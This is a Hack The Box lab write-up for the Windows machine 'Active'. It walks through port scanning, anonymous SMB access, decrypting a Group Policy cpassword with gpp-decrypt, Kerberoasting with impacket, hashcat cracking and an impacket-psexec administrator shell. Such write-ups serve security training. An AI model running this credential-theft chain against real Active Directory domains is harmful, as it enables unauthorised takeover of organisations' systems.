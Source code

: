 ```yaml
---
title: "HTB Active"
permalink: /writeups/active
location: default
---
```


# HTB Active

**Machine Information**

	IP : 10.10.10.100
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.100 -- -sC -sV
```

This should reveal a number of services including `kerberos`, `ldap`, and `smb`.

```
PORT      STATE SERVICE       REASON  VERSION
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-07-03 06:41:56Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5722/tcp  open  msrpc         syn-ack Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49170/tcp open  msrpc         syn-ack Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 49509/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 2846/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2024-07-03T06:42:54
|_  start_date: 2024-07-03T06:39:28
|_clock-skew: 0s
```

### Getting a Foothold

**SMB**

Running `smbmap` shows that there is one share with read-only access as an anonymous user.

```
smbmap -H 10.10.10.100
```

After manually exploring the file system we find a `Groups.xml` file in the following location:

```
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

Open the file to find a `cpassword` for the user `active.htb\SVC_TGS`.

This is an AES encrypted password but in 2014 Microsoft published the key on MSDN which allowed for all encrypted passwords to be decrypted. Unless these passwords were changed they are still vulnerable to decryption. Using `gpp-decrypt` we can get the plaintext password.

```
gpp-decrypt "PASSWORD HASH"
```

**Kerberoasting**

Using these credentials we can attempt to grab hashes using `impacket-GetUserSPNs`.

```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

**Hashcat**

We retrieved the hash for the Administrator user. We now attempt to crack it using `hashcat`.

```
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt
```

This successfully cracks these hash revealing the password for the Administrator user. With Administrator credentials we can connect to the target system using `impacket-psexec`.

```
impacket-psexec active.htb/administrator@10.10.10.100
```

With shell access grab the user flag.

```
type C:\Users\SVC_TGS\Desktop\user.txt
```

### Privilege Escalation

No privilege escalation is required so we can grab the root flag as well.

```
type C:\Users\Administrator\Desktop\root.txt
```
